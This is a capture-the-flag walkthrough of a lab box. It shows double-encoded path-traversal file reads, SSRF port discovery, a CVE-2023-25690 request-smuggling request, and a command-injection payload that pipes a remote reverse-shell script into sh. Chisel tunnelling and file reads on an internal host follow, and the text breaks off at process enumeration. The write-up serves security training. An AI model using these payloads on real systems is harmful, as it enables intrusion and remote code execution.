## TL;DR

In this challenge we start with `LFI` and leaks the source code of `gen.py`, which seems to have `OS Command Injection`. We found another host on the machine, and exploit HTTP request smuggling vulnerability on the apache version, to get `RCE` on the another host.

From there, we find another host on the machine, and exploits `LFI` to leak the source code. Then, we exploit `SSTI` to get `RCE` and get shell as `hansolo`.

We move to root using password found via `glob injection`, and then exploit vulnerable `input` on python2, to get `RCE`, and obtain our root shell.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                      
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                                                
| ssh-hostkey: 
|   3072 41:ed:cf:46:58:c8:5d:41:04:0a:32:a0:10:4a:83:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDjg3ryM+r7qxTQ5xAjU83DI6BXLjjzuwq8JgdhMGqUe4xYMTqG1s5JIQV4qQjpyqcnV47YE08e5Ld0ocxifpjTJ6HisyckOPNo/zqUri1Z+9K9LahP/dzWmE7mMBMql9Kzw+0f0/afMzc84qYlfNcw4yFYDVNXYx7mSJO5PRg4Tz3EGsE6jRRVBUkFJFOQmpdoCG7a5Ni6qjYh39/aBwIYeTM0d/HopG6b3NO6Yvx4rTo/xnG9vTWwYqKsWYFBrtMg/7GSh01zblPI6cjxXBxbfnhtId1/zXlY78Rkt0FvYbzFUUaGsvsUEoB8H4i8Z5n1mY3b7dw/A7anxtK19tkgs3+JZ9tOJRPYpgefslbw/w+Xyq1Q/xlokzUKdeZZV/5Z/Zh5/mhA0CibBC5s/rdx11YKMfYXXiCB/br8icBHBrSc12ZR0gUPsXS6IauN1BrotolWzv+9SvnEmj+KYeGX4yL+WoK/EG1Q6wBhX5eG6gWtFRk3IHYiBDoFGene7sk=
|   256 e8:f9:24:5b:e4:b0:37:4f:00:9d:5c:d3:fb:54:65:0a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFwb/Rz7jCz7YDYzNkf47+OXqnvgcYLVXQG5+kCpd5r6IQ7yl6Uqy03wr5mhL2pFecKeFZ9YcAH7yXOYCjhE4tc=
|   256 57:fd:4a:1b:12:ac:7c:90:80:88:b8:5a:5b:78:30:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBPpQejy/V33/ZPRlA/Ox2LyfOuWesS7uru9W0GMWlD3
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.55 ((Unix))
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE 
|_http-server-header: Apache/2.4.55 (Unix)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `contrabando.thm` to my `/etc/hosts`


### LFI on /page/ and then find different host

First, I noticed the apache version `2.4.55` is vulnerable to `CVE-2023-25690`, Http request smuggling. It might be useful later. 

When enumerating the website, I noticed that on the path `/page/sky.jpeg`, it returns the image as text/html, very strange



So, I tried to get different path:



Okay, we might be able to get here `LFI`, it simply calls the function `readfile` in php.
I double encoded the `../`. For example, if we want to get `/var/www/html/index.php`:
```bash
/page/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e/var/www/html/index.php
```



We can see the code indeed uses `readfile`.

This is the page `/page/home.html`, It says their password generator is currently down.



I used `ffuf` to find hidden .php files located at `/var/www/html`:
```bash
┌──(agonen㉿kali)-[~/thm/Contrabando]
└─$ ffuf -u "http://contrabando.thm/page/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e/var/www/html/FUZZ" -e .php -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fw 19

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://contrabando.thm/page/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e/var/www/html/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 19
________________________________________________

gen.php                 [Status: 200, Size: 392, Words: 65, Lines: 15, Duration: 153ms]
index.php               [Status: 200, Size: 148, Words: 17, Lines: 11, Duration: 152ms]
```

We found `gen.php`:



I tried to get its content:



This is the source code of `gen.php`:
```php
<?php
function generateRandomPassword($length) {
    $password = exec("tr -dc 'a-zA-Z0-9' < /dev/urandom | head -c " . $length);
    return $password;
}

if(isset($_POST['length'])){
        $length = $_POST['length'];
        $randomPassword = generateRandomPassword($length);
        echo $randomPassword;
}else{
    echo "Please insert the length parameter in the URL";
}
?>
```

It looks like basic `OS Command Injection`, However, we need to enumerate more in order to find the service that executes this `gen.php`.

I grabbed `/etc/hosts`:
```bash
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::	ip6-localnet
ff00::	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.18.0.3	124a042cc76c
```

We can guess we are inside a docker container, we need to find the port where it opens on.
First, I saw we can get `SSRF`, for example:



I used double url encoding using Hackvertor Burp extension.

Now, have two different ways to find the open port on `172.18.0.3`:

1. Brute force ports:

We want to get all `http://172.18.0.3:FUZZ/`, and check if there is some port that gives something unique:
```bash
┌──(agonen㉿kali)-[~/thm/Contrabando]
└─$ ffuf -u "http://contrabando.thm/page/%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%37%25%33%32%25%32%65%25%33%31%25%33%38%25%32%65%25%33%30%25%32%65%25%33%33%25%33%61FUZZ%25%32%66" -w ports.txt -fl 3

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://contrabando.thm/page/%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%37%25%33%32%25%32%65%25%33%31%25%33%38%25%32%65%25%33%30%25%32%65%25%33%33%25%33%61FUZZ%25%32%66
 :: Wordlist         : FUZZ: /home/agonen/thm/Contrabando/ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 3
________________________________________________

8080                    [Status: 200, Size: 873, Words: 121, Lines: 63, Duration: 168ms]
```



we found port `8080`.


2. Using `/proc/net/tcp`:

We can get file `/proc/net/tcp`:



and the file is:
```bash
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 00000000:1F90 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 28574 1 0000000000000000 100 0 0 10 0                     
   1: 0B00007F:A0B9 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 27605 1 0000000000000000 100 0 0 10 0                     
   2: 030012AC:1F90 020012AC:C16A 01 00000000:00000000 02:000AFC7F 00000000    33        0 82383 2 0000000000000000 20 4 30 10 -1                    
```

We can see on the third line, the address: `030012AC:1F90`, which is being decoded to: `172.18.0.3:8080` (little endian).

For next time, this can be helpful too,**`/etc/apache2/sites-available/000-default.conf`**.

### RCE via http request smuggling on vulnerable apache version

Now, I remember we saw this service is vulnerable to `CVE-2023-25690`. We can use this PoC [https://github.com/dhmosfunk/CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)

I want to smuggle this request:
```bash
POST /page/gen.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 62

length=2 ; curl http://192.168.164.248:8081/rev_shell.sh|sh;
```

This is example from the PoC, the request we want to smuggle:
> GET%20/SMUGGLED HTTP/1.1

> GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
Host: 192.168.1.103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36

Okay, the request we want to smuggle is:
```bash
POST%20/gen.php%20HTTP/1.1%0D%0AHost:%20localhost%0D%0AContent-Length:%2062%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Alength=2%20;%20curl%20http://192.168.164.248:8081/rev_shell.sh|sh;
```

and the modified request:
```bash
GET /page/gen.php%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aPOST%20/gen.php%20HTTP/1.1%0D%0AHost:%20localhost%0D%0AContent-Length:%2062%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Alength=2%20;%20curl%20http://192.168.164.248:8081/rev_shell.sh|sh; HTTP/1.1
Host: contrabando.thm
```

send the request:



and put the penelope payload inside `rev_shell.sh`, also set up http server on port 8081.

We got our reverse shell:



### Move to hansolo using LFI and then SSTI found on service running on different port

We can check the `/etc/hosts` file:
```bash
www-data@124a042cc76c:/var/www/html$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::  ip6-localnet
ff00::  ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.18.0.3      124a042cc76c
```

Okay, I'll upload `rustscan` to check another hosts:



I scanned the ip `172.18.0.1`, and found 3 opened ports:
```bash
www-data@124a042cc76c:/tmp$ /tmp/rustscan -a 172.18.0.1
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/var/www/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 172.18.0.1:22
Open 172.18.0.1:80
Open 172.18.0.1:5000
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
```

We can see there is some website hosted on this port:



Let's upload `chisel` and tunnel this port.
On our local machine, we'll set the chisel server on port `1234`:
```bash
chisel server --reverse -p 1234
```

and on the remote machine, tunnel `172.18.0.1:5000` to port `5000` on our local machine:
```bash
/tmp/chisel client 192.168.164.248:1234 R:5000:172.18.0.1:5000
``` 



Now, we can access the website at `http://localhost:5000`:



Okay, I tried to give `file:///etc/passwd` to check for `LFI`, and i got `/etc/passwd`:



We can detect user `hansolo`, which is probably the only user on this host.
Since I noticed the website is based on `Werkzeug`, which is python framework, I started looking for `app.py`.



After some searching, I found it on `file:///home/hansolo/app/app.py`.

We can find it using brute forcing all `/proc/{pid}/cmdline`, to find the cmdline running on processes, until we find something that executes `.py`

I wrote some short script for that:
```py

```



I executed this, with `grep -a .py`:
```bash
┌──(agonen㉿kali)-[~/thm/Contrabando]
└─$ python3 find_app.py | grep -a .py
/usr/bin/python3/usr/bin/networkd-dispatcher--run-startup-triggers
/bin/sh-c/usr/bin/python3 /home/hansolo/app/app.py
/usr/bin/python3/home/hansolo/app/app.py
